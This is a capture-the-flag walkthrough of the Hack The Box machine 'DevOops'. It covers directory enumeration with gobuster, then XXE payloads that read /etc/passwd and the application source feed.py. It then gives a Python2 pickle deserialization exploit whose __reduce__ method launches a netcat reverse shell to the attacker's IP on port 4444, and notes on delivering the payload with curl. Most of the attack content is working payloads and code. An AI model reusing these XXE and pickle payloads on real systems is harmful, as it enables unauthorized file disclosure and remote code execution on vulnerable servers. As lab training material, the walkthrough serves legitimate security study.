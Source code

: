 # 10 - Gunicorn


# feed.py
![](vx_images/962314158896.png)

# Gobuster
```sql
┌─[user@parrot]─[10.10.14.12]─[~/htb/devoops]
└──╼ $ cat gobuster/ip.log 
/feed                 (Status: 200) [Size: 546263]
/upload               (Status: 200) [Size: 347]
```


# /upload
![](vx_images/5357400716419.png)



# test.xml
Let's upload an XML file with the tags mentioned on the page

```sql
┌─[user@parrot]─[10.10.14.12]─[~/htb/devoops/exploit]
└──╼ $ cat test.xml 
<?xml version="1.0" encoding="UTF-8"?>
<Content>
  <Author>ennozdd</Author>
  <Subject>Just testing</Subject>
</Content>
```


![](vx_images/4927705837130.png)


# Processed XML response
![](vx_images/4209316707316.png)

# [XXE to retrieve files](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks)
```sql
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> 
```
This is the payload to retrive /etc/passwd but we also need the required tags for processing.

# /etc/passwd 
```sql
┌─[user@parrot]─[10.10.14.12]─[~/htb/devoops/exploit]
└──╼ $ cat exploit.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<Content>
  <Author>ennozdd</Author>
  <Subject>test</Subject>
  <stockCheck><productId>&xxe;</productId></stockCheck>
</Content>
```


![](vx_images/3304653801456.png)


# feed.py

```sql
┌─[user@parrot]─[10.10.14.12]─[~/htb/devoops/exploit]
└──╼ $ cat exploit.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:////home/roosa/deploy/src/feed.py"> ]>
<Content>
  <Author>ennozdd</Author>
  <Subject>test</Subject>
  <stockCheck><productId>&xxe;</productId></stockCheck>
</Content>
```
feed.py is mentioned on the index page

![](vx_images/5173594432996.png)

Pickle is known to be vulnerable to deserialization attacks

This is from [the official python documentation](https://docs.python.org/3/library/pickle.html)
![](vx_images/516851711774.png)


# Pickle Deserialization
```py
#!/usr/bin/env python2
import pickle
import base64
import os


class RCE(object):
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4444 >/tmp/f"
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print base64.urlsafe_b64encode(pickled)
```

Python2 is a safer choice because this box is running **OpenSSH 7.2p2 Ubuntu 4ubuntu2.4** which is preinstalled on Xenial so it's most likely Ubuntu 16.04. And Python2 is default on Ubuntu 16.04

https://launchpad.net/ubuntu/+source/openssh/1:7.2p2-4ubuntu2.4


# Content Type
![](vx_images/3003402316538.png)

```bash
curl(1)

NAME
       curl - transfer a URL

the default content-type sent to the server is application/x-www-form-urlencoded.
```
We don't want to encode anything since we have already done it, we want **feed.py** to do the decoding so we should send the payload as text/plain.

# Shell
![](vx_images/780461509372.png)


